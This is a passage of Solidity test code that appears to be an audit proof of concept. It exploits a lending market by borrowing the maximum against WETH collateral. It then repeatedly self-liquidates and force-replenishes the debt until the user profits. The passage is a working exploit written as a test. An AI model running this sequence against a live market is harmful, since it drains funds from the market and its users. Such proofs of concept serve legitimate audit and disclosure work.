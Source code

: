 ```solidity
        // if the collateral value is greater than the debt, the total value includes the difference because user can repay debt and claim the collateral back
        if(market.getCollateralValue(user) > market.debts(user))
            totalValue += (market.getCollateralValue(user) - market.debts(user))/P;
        return totalValue;
    }

    function testAttack_2() public {
        uint P = ethFeed.latestAnswer() / 1e18; // assume the price stays the same

        gibWeth(user, wethTestAmount); // 10^18, 1 eth for collateral
        gibDOLA(user, wethTestAmount * P); // 10^18, 1 eth in DOLA for liquidation

        // block 1
        vm.startPrank(user);
        deposit(wethTestAmount); // collateral

        uint borrowAmount = market.getCreditLimit(user); // borrow as much as it can
        market.borrow(borrowAmount);

        emit log_named_decimal_uint("Total value before exploit", userTotalValue(user), 18);
        emit log_named_uint("B", market.debts(user));
        emit log_named_uint("D", market.debts(user));
        emit log_named_uint("C", market.getCollateralValue(user));
        emit log_named_decimal_uint("H", market.getCollateralValue(user) * 1e18 / market.debts(user), 18);

        // start liquidation
        uint cycle = 1;
        while(cycle < 100)
        {
            emit log_named_uint("Cycle", cycle);
            uint256 liquidatable = getMaxLiquidatable(user);
            if(liquidatable > 0)
            {
                emit log("Liquidation");
                emit log_named_uint("L", liquidatable);
                market.liquidate(user, liquidatable); // liquidate as much as it can
            }
            else {
                emit log("Wait a block and force replenishment");
                vm.warp(block.timestamp + 1);
                uint256 replenishable = getMaxForceReplenishable(user);
                emit log_named_uint("R", replenishable); // force replenish as much as possible, this will incur some loss but will make the address liquidatable
                market.forceReplenish(user, replenishable);
            }


            emit log_named_uint("D", market.debts(user));
            emit log_named_uint("C", market.getCollateralValue(user));
            emit log_named_decimal_uint("H", market.getCollateralValue(user) * 1e18 / market.debts(user), 18);

            ++ cycle;

            uint256 totalValue = userTotalValue(user);
            emit log_named_decimal_uint("Total value the user owns",  totalValue, 18);
            if(totalValue > wethTestAmount * 2)
                break; // no need to continue, the attacker already took profit from the market
        }
    }
}
```